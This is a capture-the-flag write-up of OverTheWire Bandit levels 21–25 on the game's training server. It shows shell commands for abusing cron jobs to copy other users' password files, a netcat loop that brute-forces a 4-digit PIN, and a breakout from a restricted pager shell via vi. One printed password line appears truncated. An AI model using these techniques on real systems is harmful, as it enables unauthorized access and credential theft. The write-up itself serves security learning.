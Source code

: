 ```yaml
---
layout: post
title:  "OverTheWire Bandit Levels 21-25"
tags: overthewire-bandit
---
```


## Level 21
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
```
bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ ssh bandit22@localhost
bandit22@localhost's password:
```

## Level 22
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.**
```
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit22@bandit:~$ ssh bandit23@localhost
bandit23@localhost's password:
```

## Level 23
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!**

**NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…**
```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
bandit23@bandit:~$ cd /tmp/scottctaylor12
bandit23@bandit:/tmp/scottctaylor12$ touch bandit24-pass.sh
bandit23@bandit:/tmp/scottctaylor12$ chmod 777 bandit24-pass.sh
(WRITE SCRIPT)

bandit23@bandit:/tmp/scottctaylor12$ cat bandit24-pass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/scottctaylor12/PASSWORD
chmod 666 /tmp/scottctaylor12/PASSWORD
bandit23@bandit:/tmp/scottctaylor12$ cp bandit24-pass.sh /var/spool/bandit24/
bandit23@bandit:/tmp/scottctaylor12$ cat PASSWORD
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit23@bandit:/tmp/scottctaylor12$ ssh bandit24@localhost
bandit24@localhost's password:
```
## Level 24
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```
bandit24@bandit:~$ cd /tmp/scottctaylor12
bandit24@bandit:/tmp/scottctaylor12$ touch brute-force-25.sh
bandit24@bandit:/tmp/scottctaylor12$ chmod 777 brute-force-25.sh
(EDIT brute-force-25.sh)
bandit24@bandit:/tmp/scottctaylor12$ cat brute-force-25.sh
#!/bin/bash
PASS=$(cat /etc/bandit_pass/bandit24)

for i in {0000..9999}
do
    echo $i
    echo $PASS $i | nc localhost 30002
done

bandit24@bandit:/tmp/scottctaylor12$ ./brute-force-25.sh >> output
(AN HOUR LATER.....)
bandit24@bandit:/tmp/scottctaylor12$ cat output | grep -i -A2 -B2 ^correct
5440
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is sh
bandit24@bandit:/tmp/scottctaylor12$ ssh bandit25@localhost
bandit24@localhost's password:
```

## Level 25
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
```
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
..
Connection to localhost closed
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
(SHRINK WINDOW TO SHOW 3 LINES)
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
v
:set shell=/bin/bash
:shell
bandit26@bandit:~$
```
